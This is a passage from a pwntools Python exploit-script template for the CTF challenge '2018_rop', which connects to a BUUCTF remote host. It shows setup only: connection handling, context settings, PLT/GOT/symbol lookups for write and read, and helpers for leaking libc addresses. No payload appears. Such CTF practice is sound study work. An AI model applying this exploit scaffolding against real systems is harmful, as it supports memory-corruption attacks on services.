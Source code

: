 ```
    else:

        if x:

            return process(file1),ELF(file1)

        else:

            return remote("node5.buuoj.cn",26192),ELF(file1)

p,elf=init("./2018_rop",0,0)

  

def log(a,b,c):

    if a:

        context.log_level="debug"

    if b:

        context.os='linux'

    if c:

        context.arch='amd64'  

log(1,1,1)

  

def real(name1,name2,name3):

    if name1:

        plt=elf.plt[name1]

        got=elf.got[name3]

        sym=elf.symbols[name2]

        return plt,got,sym

plt,got,sym=real("write","write","read")

# context.terminal = ['xterm', '-e']

def debug():

    attach(p)

  

# debug()

r = lambda x: p.recv(x)

ru = lambda str: p.recvuntil(str)

rul1 =lambda : u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))

rul2 = lambda : u32(p.recvuntil('\xf7')[-4:].ljust(4,b"\x00"))
```